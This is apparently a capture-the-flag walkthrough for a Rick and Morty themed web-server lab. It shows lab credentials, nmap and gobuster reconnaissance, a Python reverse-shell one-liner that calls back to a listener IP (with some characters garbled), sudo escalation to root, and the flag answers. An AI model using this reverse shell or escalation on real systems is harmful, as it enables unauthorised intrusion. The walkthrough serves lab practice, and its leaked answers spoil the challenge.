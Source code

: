 ## 🌌 Rick and Morty Adventure
![RickAndMorty](rickandmorty.jpeg)

### Task 1: Pickle Rick! 🥒

Join Rick in this thrilling challenge where you'll navigate a web server to find three secret ingredients. These are essential for Rick to concoct his potion and revert back from his pickle form.

---

### 🕵️‍♂️ Exploration Phase

1. **Initial Clues**: A peek into the web server reveals a note hinting at a username.
   - **Username**: `R1ckRul3s`

2. **Nmap Scan**: Discovering what's open.
   ```bash
   nmap 10.10.239.182
   ```
   - Results show **SSH (22)** and **HTTP (80)** ports welcoming us.

3. **Directory Hunting**: Time to uncover hidden paths.
   ```bash
   gobuster dir -u 10.10.239.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,html,txt,css
   ```
   - Interesting finds: `/login.php`, `/robots.txt` (containing the password clue `Wubbalubbadubdub`).

---

### 📜 Gathering Ingredients

1. **First Ingredient**: Found in `Sup3rS3cretPickl3Ingred.txt`.
   - **Ingredient**: Mr. Meeseek hair.

   #### 🔧 Automating the Process   
   ```python
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket   SOCK_STREAM);s.connect(("10.10.77.245",9999));os.dup2(s.fileno(),0); os.dup2(s.filen   (),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   ```   
   This command establishes a reverse shell connection back to your machine. Don't   forget to replace `"10.10.77.245"` with your listener's IP address and `9999` with   the port number you're listening on.

2. **Second Ingredient**: A journey through the file system unveils:
   ```bash
   sudo -l
   sudo -u root /bin/bash
   cd rick
   cat "second ingredients"
   ```
   - **Ingredient**: 1 Jerry tear.

3. **Final Ingredient**: The last leap into `/root`.
   ```bash
   cat 3rd.txt
   ```
   - **Ingredient**: Fleeb juice.

---